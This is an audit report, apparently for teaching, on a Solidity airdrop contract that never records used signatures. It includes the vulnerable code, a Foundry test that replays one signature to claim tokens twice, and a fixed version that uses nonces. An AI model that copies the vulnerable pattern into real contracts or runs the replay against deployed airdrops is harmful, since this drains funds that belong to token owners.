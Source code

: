 ## Airdrop Smart contract Audit Report

### Contract: VulnerableAirdrop

#### Overview

The `VulnerableAirdrop` contract allows users to claim a certain amount of tokens by providing a valid signature from a designated signer. However, the contract contains a critical vulnerability that allows signature replay attacks, enabling users to claim tokens multiple times using the same valid signature.

### Vulnerability Details

**Vulnerability**: Signature Replay Attack

**Severity**: High

**Description**: The `VulnerableAirdrop` contract does not keep track of used signatures, allowing attackers to reuse a valid signature to claim tokens multiple times.

### Attack Path

1. A user obtains a valid signature from the designated signer to claim a specific amount of tokens.
2. The user submits the valid signature to the `claimTokens` function and receives the tokens.
3. The user reuses the same valid signature to call the `claimTokens` function again.
4. The contract does not check if the signature has been used before and transfers the tokens again.

### Proof of Code

#### Vulnerable Contract Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/utils/cryptography/ECDSA.sol";

contract VulnerableAirdrop {
    using ECDSA for bytes32;

    IERC20 public token;
    address public signer;  // The address that signs the messages

    event TokensClaimed(address indexed claimant, uint256 amount);

    constructor(address tokenAddress, address signerAddress) {
        token = IERC20(tokenAddress);
        signer = signerAddress;
    }

    function claimTokens(uint256 amount, bytes memory signature) public {
        // Construct the message hash
        bytes32 messageHash = keccak256(abi.encodePacked(
            "\x19Ethereum Signed Message:\n32", 
            keccak256(abi.encodePacked(msg.sender, amount))
        ));

        // Verify the signature
        address recoveredSigner = ECDSA.recover(messageHash, signature);
        require(recoveredSigner == signer, "Invalid signature");

        // Transfer the tokens
        require(token.transfer(msg.sender, amount), "Token transfer failed");

        emit TokensClaimed(msg.sender, amount);
    }
}
```

#### Exploit Test Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "forge-std/Test.sol";
import "../src/VulnerableAirdrop.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract ERC20Mock is ERC20 {
    constructor(
        string memory name,
        string memory symbol,
        address initialAccount,
        uint256 initialBalance
    ) ERC20(name, symbol) {
        _mint(initialAccount, initialBalance);
    }
}

contract VulnerableAirdropTest is Test {
    using ECDSA for bytes32;

    ERC20Mock token;
    VulnerableAirdrop airdrop;
    address signer;
    address user;

    function setUp() public {
        signer = vm.addr(1);
        user = vm.addr(2);

        token = new ERC20Mock("Test Token", "TST", address(this), 10000 ether);
        airdrop = new VulnerableAirdrop(address(token), signer);

        token.transfer(address(airdrop), 1000 ether);
    }

    function testExploitSignatureReplay() public {
        uint256 amount = 100 ether;
        bytes32 messageHash = keccak256(abi.encodePacked(
            "\x19Ethereum Signed Message:\n32", 
            keccak256(abi.encodePacked(user, amount))
        ));
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(1, messageHash);
        bytes memory signature = abi.encodePacked(r, s, v);

        // First claim
        vm.prank(user);
        airdrop.claimTokens(amount, signature);
        assertEq(token.balanceOf(user), amount);

        // Reuse the same signature to claim again
        vm.prank(user);
        airdrop.claimTokens(amount, signature);
        assertEq(token.balanceOf(user), 2 * amount);
    }
}
```

### Impact

The signature replay vulnerability allows malicious users to claim tokens multiple times with the same signature. This can lead to significant financial losses for the contract owner and deplete the contract's token balance, undermining the integrity and purpose of the airdrop.

### Tools used

Manual Review

### Recommendations

To prevent signature replay attacks, it is crucial to keep track of used signatures or nonces. One effective solution is to include a nonce in the signed message and store each user's nonce. Here's an updated version of the contract with the recommended fix:

#### Fixed Contract Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/utils/cryptography/ECDSA.sol";

contract SecureAirdrop {
    using ECDSA for bytes32;

    IERC20 public token;
    address public signer;  // The address that signs the messages
    mapping(address => uint256) public nonces;  // Keep track of nonces for each user

    event TokensClaimed(address indexed claimant, uint256 amount);

    constructor(address tokenAddress, address signerAddress) {
        token = IERC20(tokenAddress);
        signer = signerAddress;
    }

    function claimTokens(uint256 amount, uint256 nonce, bytes memory signature) public {
        require(nonce == nonces[msg.sender], "Invalid nonce");

        // Construct the message hash
        bytes32 messageHash = keccak256(abi.encodePacked(
            "\x19Ethereum Signed Message:\n32", 
            keccak256(abi.encodePacked(msg.sender, amount, nonce))
        ));

        // Verify the signature
        address recoveredSigner = ECDSA.recover(messageHash, signature);
        require(recoveredSigner == signer, "Invalid signature");

        // Increment the nonce
        nonces[msg.sender]++;

        // Transfer the tokens
        require(token.transfer(msg.sender, amount), "Token transfer failed");

        emit TokensClaimed(msg.sender, amount);
    }
}
```

